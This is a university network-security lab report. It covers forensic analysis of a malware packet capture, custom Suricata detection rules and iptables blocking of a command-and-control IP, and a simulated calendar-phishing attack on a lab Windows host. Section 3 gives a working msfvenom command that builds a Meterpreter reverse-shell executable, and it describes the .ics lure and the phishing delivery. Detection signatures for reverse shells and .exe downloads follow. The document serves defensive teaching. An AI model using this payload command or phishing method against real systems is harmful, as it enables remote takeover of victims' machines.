# Landing Page

- **University:** University of Dhaka
- **Program:** Professional Master's in Information & Cybersecurity (PMICS)
- **Title:** CSE 804 (2nd Mid on Lab)
- **Subtitle:** Network Traffic Analysis, Threat Mitigation & EDR Integration
- **Course:** CSE 804: Network & Internet Security
- **Name:** Nishan Paul
- **Roll No:** 50028
- **Reg. No:** H-55
- **Batch:** 05
- **Submission Date:** January 17, 2026

**Collaborative Group Members:**

| Name | Roll Number |
| :--- | :--- |
| Md Rakibur Rahman | 50040 |
| Anado Shaffat | 50004 |
| Md Hossain Sarwar | 50036 |
| Md Ranik Miah | 50017 |

---

# Table of Contents

1. [Forensic Network Traffic Analysis & Defensive Signature Development](#section-1-forensic-network-traffic-analysis--defensive-signature-development)
   - [1.1 Analysis Context & Threat Intelligence](#11-analysis-context--threat-intelligence)
   - [1.2 SOC Objective: Detection & Response](#12-soc-objective-detection--response)
   - [1.3 Technical Execution: Wireshark Traffic Forensics](#13-technical-execution-wireshark-traffic-forensics)
   - [1.4 Defensive Engineering: Custom Suricata NIDS Patterns](#14-defensive-engineering-custom-suricata-nids-patterns)
   - [1.5 SIEM Integration & Alert Validation](#15-siem-integration--alert-validation)
2. [Active Threat Mitigation & Host-Level Enforcement](#section-2-active-threat-mitigation--host-level-enforcement)
   - [2.1 Strategic Objective: Persistence Prevention](#21-strategic-objective-persistence-prevention)
   - [2.2 Implementation: Host Isolation via Stateful Firewall](#22-implementation-host-isolation-via-stateful-firewall)
   - [2.3 Post-Mitigation Verification](#23-post-mitigation-verification)
3. [Social Engineering Simulation & Multi-Layered Detection](#section-3-social-engineering-attack-simulation--multi-layer-detection)
   - [3.1 Threat Actor Profile & Attack Objectives](#31-threat-actor-profile--attack-objectives)
   - [3.2 Infrastructure: Attack & Monitoring Topology](#32-infrastructure-attack--monitoring-topology)
   - [3.3 Phase 1: Weaponization & C2 Blueprint](#33-phase-1-weaponization--c2-blueprint)
   - [3.4 Phase 2: Delivery via Calendar Phishing (T1566.003)](#34-phase-2-delivery-via-calendar-phishing-t1566003)
   - [3.5 Phase 3: Exploitation & Command and Control (C2)](#35-phase-3-exploitation--command-and-control-c2)
   - [3.6 Defensive Layer 1: Suricata Signature Logic](#36-defensive-layer-1-suricata-signature-logic)
   - [3.7 Defensive Layer 2: Wazuh EDR Behavioral Analysis](#37-defensive-layer-2-wazuh-edr-behavioral-analysis)
   - [3.8 Post-Incident Review: The Defense-in-Depth Model](#38-post-incident-review-the-defense-in-depth-model)
4. [Executive Summary & Conclusion](#executive-summary--conclusion)

---

## SECTION 1: Forensic Network Traffic Analysis & Defensive Signature Development

### 1.1 Analysis Context & Threat Intelligence

We investigated a high-fidelity infection scenario derived from the **malware-traffic-analysis.net** repository, focusing on an SEO poisoning and drive-by download vector.

- **Campaign ID:** 2025-01-22 - Fake Software Site Redirection
- **Artifact Analyzed:** `2025-01-22-traffic-analysis-exercise.pcap`
- **Threat Actor TTP:** The adversary weaponized search engine results for "Google Authenticator." Users were redirected to a malicious domain that served a Stage-1 PowerShell (`.ps1`) script, leading to full system compromise.

### 1.2 SOC Objective: Detection & Response

> **Mission Objective:** Identify the malicious Command and Control (C2) infrastructure from the packet capture and engineer a custom Suricata signature to automate real-time alerting for any outbound HTTP communication to the identified Indicators of Compromise (IOC).

### 1.3 Technical Execution: Wireshark Traffic Forensics

As SOC analysts, we bypassed high-level noise by focusing on common Initial Access techniques (**MITRE T1059.001**). By applying the filter `http.request.uri contains ".ps1"`, we pinpointed the exact moment of weaponized script delivery.

  
*Figure 1.1: Forensic isolation of PowerShell (.ps1) requests using HTTP URI string matching.*

The capture revealed the initial handshake and the subsequent redirection to the delivery server.

  
*Figure 1.2: Packet-level breakdown of the initial HTTP GET request used for payload delivery.*

To ensure the attack was successful, we verified the server's response. The filter `http.response && frame contains ".ps1"` confirmed that the victim machine successfully received the malicious payload (HTTP 200 OK).

  
*Figure 1.3: Confirmation of successful data transfer (200 OK) for the malicious PowerShell script.*

Through **File Object Export**, we extracted the metadata for the malicious source IP: **5.252.153.241**. This IP is now treated as a critical Indicator of Compromise (IOC).

  
*Figure 1.4: Exporting HTTP objects to map the malicious script back to the C2 hosting IP: 5.252.153.241.*

### 1.4 Defensive Engineering: Custom Suricata NIDS Patterns

Armed with the IOC, we transited from **Detection** to **Protection**. We implemented two levels of detection in the Suricata sensor to handle both direct connections and high-frequency beacons.

**SOC Rule Engineering Strategy:**
- **Rule 1000002:** Simple detection for *any* standard HTTP interaction with the C2.
- **Rule 1000001:** Threshold-based logic (2 attempts in 120s) to identify periodic C2 heartbeats while minimizing false positives.

```bash
# [Basic Detection]
alert tcp any any -> 5.252.153.241 80 (msg:"TCP connection attempt to 5.252.153.241 detected"; sid:1000002; rev:1;)

# [Advanced Thresholding]
alert tcp $HOME_NET any -> 5.252.153.241 any (msg:"IOC: Connection attempt to known suspicious IP"; flags:S; threshold:type both, track by_src, count 2, seconds 120; classtype:trojan-activity; sid:1000001; rev:1;)
```

  
*Figure 1.5: Implementation of the custom .rules file within the Suricata configuration directory.*

  
*Figure 1.6: Updating suricata.yaml to include the new 'rakibcustom.rules' path for live detection.*

### 1.5 SIEM Integration & Alert Validation

We restarted the Suricata and Filebeat engines to apply the changes. Verification was performed by simulating a connection to the IOC.

  
*Figure 1.7: System-level logs confirming successful rule compilation and service initialization.*

The **Elastic/Wazuh SIEM Dashboard** immediately populated with alerts. Categorizing the threat as `trojan-activity` allows our SOC team to apply automated playbooks for immediate containment.

  
*Figure 1.8: SIEM visualization showing real-time alert spikes corresponding to the simulated C2 traffic.*

  
*Figure 1.9: Granular alert drill-down showing the source/destination mapping and the triggered SID 1000001.*

---

## SECTION 2: Active Threat Mitigation & Host-Level Enforcement

### 2.1 Strategic Objective: Persistence Prevention

> **Incident Response Directive:** Following the confirmation of malicious outbound traffic to **5.252.153.241**, we must immediately disrupt the adversary's Command and Control (C2) channel. The goal is to isolate the compromised host to prevent data exfiltration (**MITRE T1041**) and further instruction delivery.

### 2.2 Implementation: Host Isolation via Stateful Firewall

To establish an immediate defensive perimeter, we utilized **Linux IPTables**. By implementing a `REJECT` policy on the identified IP, we ensure all stateful connections are terminated and new attempts are explicitly blocked.

  
*Figure 2.1: Active firewall rules showing the rejection of traffic to/from the malicious IP at the kernel level.*

### 2.3 Post-Mitigation Verification

We conducted a connectivity audit using `wget`. The immediate "Connection Refused" response confirms that the host is successfully shielded from the malicious actor.

  
*Figure 2.2: Validation test confirming that the host can no longer communicate with the C2 infrastructure.*

---

**Transition from Reactive to Proactive Defense:**  
While Section 2 demonstrated the immediate mitigation of a known threat through IP-based blocking, modern adversaries often employ social engineering to bypass perimeter defenses. The next section explores how we simulate such an attack and leverage our SIEM to detect behavioral anomalies that signatures might miss.

---

## SECTION 3: Social Engineering Simulation & Multi-Layered Detection

### 3.1 Threat Actor Profile & Attack Objectives

> **Scenario:** Demonstrate the complete cyber kill chain by simulating a sophisticated **Google Calendar Phishing Attack**. This exercise tests the efficacy of our **Defense-in-Depth** architecture (Suricata + Wazuh) against modern social engineering vectors.

**Attack Campaign Objectives:**
- **Initial Access:** Bypass email filters via `.ics` calendar invitations.
- **Execution:** Achieve a user-triggered reverse shell on a patched Windows 10 host.
- **Persistence/C2:** Establish a stable Meterpreter session for post-exploitation.
- **Detection Evasion:** Blend C2 traffic with legitimate web protocols.

**MITRE ATT&CK Mapping:**
- **T1566.003:** Phishing: Spearphishing via Service.
- **T1204.002:** User Execution: Malicious File.
- **T1071.001:** Application Layer Protocol: Web Protocols.
- **T1059.003:** Command and Scripting Interpreter: Windows Command Shell.

### 3.2 Infrastructure: Attack & Monitoring Topology

The lab environment utilizes a bridged network to simulate a real enterprise LAN, ensuring every packet is visible to our SIEM sensors.

**Asset Inventory:**
- **Attacker System:** Ubuntu 24.04 (IP: 192.168.119.149)
- **Victim Endpoint:** Windows 10 Pro (IP: 192.168.119.1)
- **Security Stack:** Wazuh EDR Agent + Suricata NIDS

### 3.3 Phase 1: Weaponization & C2 Blueprint

We utilized `msfvenom` to generate a high-fidelity Windows PE executable. To mimic legitimate security tools, the payload was named `newpayload.exe`.

```bash
# Payload Generation: Windows X64 Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.119.149 \
  LPORT=4444 \
  -f exe > newpayload.exe
```

  
*Figure 3.1: Using msfvenom to engineer a reverse shell payload targeting the Windows architecture.*

The payload was staged on a local Apache server to facilitate the "drive-by download" phase of the attack.

  
*Figure 3.2: Deploying the malicious artifact to the Apache /var/www/html/ root for delivery.*

### 3.4 Phase 2: Delivery via Calendar Phishing (T1566.003)

We bypassed typical spam filters by crafting a malicious `.ics` file. This leverages the "automatic meeting add" feature of modern email clients to insert the malicious URL directly into the victim's schedule.

  
*Figure 3.3: Crafting the iCalendar (.ics) template with embedded social engineering lures.*

An automated Python script was used to dispatch the phishing email, attaching the weaponized calendar invite.

  
*Figure 3.4: Python-based SMTP delivery script for high-volume spearphishing automation.*

**Victim Perspective:** The email appears as a high-priority "Security Update," increasing the probability of a click (Social Engineering principle of Authority).

  
*Figure 3.5: Attack Delivery Stage - Appearance of the phishing email in the victim's inbox.*

  
*Figure 3.6: The malicious meeting successfully injected into the victim's Windows Calendar.*

### 3.5 Phase 3: Exploitation & Command and Control (C2)

Upon clicking the URL, the victim downloads and executes the "update." This immediately triggers a back-connection to the attacker's listener.

  
*Figure 3.7: Successful user-initiated download of the malicious executable.*

On the attacker system, a Meterpreter session is established, providing full interactive control over the victim.

  
*Figure 3.8: Command and Control established - Active Meterpreter session on target Windows 10 system.*

**Post-Exploitation Capabilities:**  
The established Meterpreter session provided comprehensive system access, including:
- File system navigation and manipulation
- Process enumeration and injection
- Credential harvesting capabilities
- Privilege escalation vectors
- Persistent backdoor installation

### 3.6 Defensive Layer 1: Suricata Signature Logic

To detect this attack at the ingress/egress layer, we developed custom signatures targeting the unique indicators of the Meterpreter staging process and the non-standard C2 port (4444).

```bash
# Suricata Logic: Signature for Malicious EXE Retrieval & Reverse Shell Telemetry
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"MALWARE Download - Suspicious EXE via HTTP"; flow:established,to_server; http.method; content:"GET"; http.uri; content:".exe"; nocase; classtype:trojan-activity; sid:1000001; rev:1;)

alert tcp $HOME_NET any -> $EXTERNAL_NET 4444 (msg:"REVERSE SHELL Attempt - Suspicious TCP Port 4444"; flow:established,to_server; flags:S,12; threshold:type both, track by_src, count 3, seconds 60; classtype:trojan-activity; sid:1000002; rev:1;)
```

  
*Figure 3.9: Deployment of custom Suricata rules designed to trigger on common C2 staging patterns.*

**Detection Validation:**  
The Suricata sensor successfully identified the outbound C2 handshake. The alerts were aggregated in the SIEM, providing an immediate chronological view of the exfiltration attempt.

  
*Figure 3.10: SIEM Alert Timeline showing 69 distinct events triggered by the Reverse Shell session.*

  
*Figure 3.11: Statistical breakdown of the alerts, highlighting 'ubuntu-2204' as the primary malicious actor.*

### 3.7 Defensive Layer 2: Wazuh EDR Behavioral Analysis

While Suricata monitored the "wire," the **Wazuh Agent** provided deep visibility into the "host." Wazuh's behavioral engine detected the malicious execution through process anomaly monitoring.

**Forensic Findings:**
- **Process Injection (T1055):** The payload attempted to mask its presence by injecting into legitimate Windows processes (`taskhost.exe`). 
- **Severity Level 15:** Multiple critical alerts were triggered for abnormal DLL loading and memory manipulation.

  
*Figure 3.12: Wazuh Security Event Dashboard mapping host-level behavior to MITRE ATT&CK techniques (T1055).*

### 3.8 Post-Incident Review: Technical Correlation

The following matrix summarizes the efficacy of our multi-layered detection strategy across the attack lifecycle:

| Kill Chain Phase | Technique | Detection Layer | Result |
| :--- | :--- | :--- | :--- |
| **Initial Access** | Phishing (T1566.003) | Email Security (Simulated) | Compromised |
| **Execution** | User Execution (T1204) | Wazuh (Process Monitoring) | **Detected** |
| **C2 Establishment** | Non-Standard Port (T1071) | Suricata (Signature) | **Detected** |
| **Defense Evasion** | Process Injection (T1055) | Wazuh (Behavioral) | **Detected** |

---

## EXECUTIVE SUMMARY & CONCLUSION

This laboratory exercise provided a comprehensive validation of a **Defense-in-Depth** security architecture. By transitioning from reactive forensics to proactive simulation and active mitigation, we established a resilient detection-and-response workflow.

### Strategic Takeaways

1. **Network Visibility as the Perimeter:** Custom Suricata signatures (IDs 1000001/2) proved critical for identifying C2 handshakes at the ingress/egress layer, enabling immediate containment via IPTables.

2. **Behavioral EDR as the Fail-Safe:** While network signatures can be bypassed via encryption, the Wazuh EDR's behavioral monitoring correctly flagged the malicious process injection (`taskhost.exe`), demonstrating that host-level visibility is indispensable.

3. **The Continuity of Defense:** The core success of this operation was the integration of disparate tools—**Wireshark** for analysis, **IPTables** for enforcement, and **Wazuh/Suricata** for persistent monitoring—into a unified Incident Response lifecycle.

In conclusion, this multi-layered approach represents the gold standard for modern enterprise security, ensuring that even when initial social engineering succeeds, the subsequent stages of the attack are identified and neutralized before impact.
